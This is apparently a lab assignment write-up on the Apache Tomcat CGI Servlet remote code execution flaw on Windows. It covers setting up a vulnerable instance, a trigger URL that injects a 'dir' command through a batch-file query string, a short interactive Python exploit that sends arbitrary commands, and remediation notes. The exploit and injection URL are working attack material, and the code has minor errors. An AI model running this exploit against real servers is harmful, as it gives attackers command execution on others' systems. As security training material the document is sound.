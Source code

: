 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the conf\context.xml file on line 19, to enable privileged context:

``` html
<Context privileged="true">
```	
1. Modify conf\web.xml to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

``` html

<servlet><servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (“cgi”):
``` html
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

1.	Create a folder for the CGI files:
 mkdir webapps\ROOT\WEB-INF\cgi
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
cd bin
catalina run
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:

```python3

import requests as re
base_url = raw_input("Enter url of the .bat cgi script: ")
while(True):
	command = raw_input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 
